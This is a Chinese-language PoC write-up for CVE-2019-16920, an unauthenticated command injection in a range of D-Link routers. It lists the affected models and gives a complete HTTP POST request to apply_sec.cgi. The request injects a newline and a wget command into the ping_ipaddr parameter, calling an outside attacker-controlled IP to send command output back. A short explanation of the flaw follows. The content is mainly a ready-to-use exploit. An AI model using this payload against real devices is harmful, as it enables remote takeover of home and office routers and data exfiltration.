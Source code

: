 ```yaml
---
title: "（CVE-2019-16920）D-Link rce"
id: zhfly3386
---
```


# （CVE-2019-16920）D-Link rce

## 一、漏洞简介

D-Link设备中出现未经身份验证的命令注入漏洞(FG-VD-19-117/CVE-2019-16920)，该漏洞可造成远程代码执行。

## 二、漏洞影响

DIR-655 ，DIR-866L，DIR-652，DHP-1565，DIR-855L，DAP-1533，DIR-862L，DIR-615，DIR-835，DIR-825等

## 三、复现过程

### poc

> 攻击者可以利用该漏洞将任意字符串发送到“PingTest”网关接口来实现命令注入。

```
POST /apply_sec.cgi HTTP/1.1
Host: 192.168.232.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Connection: close
Referer: http://192.168.232.128/login_pic.asp
Cookie: uid=1234123
Upgrade-Insecure-Requests: 1 `html_response_page=login_pic.asp&action=ping_test&ping_ipaddr=127.0.0.1%0awget%20-P%20/tmp/%20http://45.76.148.31:4321/?$(echo 1234)` 
```

“该漏洞始于一次错误的身份验证过程。当我们要进入管理页面时，需要执行登录操作。此时，我们会对`apply_sec.cgi`页面发出`POST`请求，其中包含一个操作`ping_test`。研究后发现，我们可通过参数`ping_ipaddr`执行命令注入。虽然响应是返回登录页面，但操作`ping_test`仍然执行了，我们通过参数`ping_ipaddr`注入的命令`echo 1234`成功执行，并将结果发送回我们的服务器。”

![image](../img/d7f89453ba8dd9e3fe1e631544d334ab.png)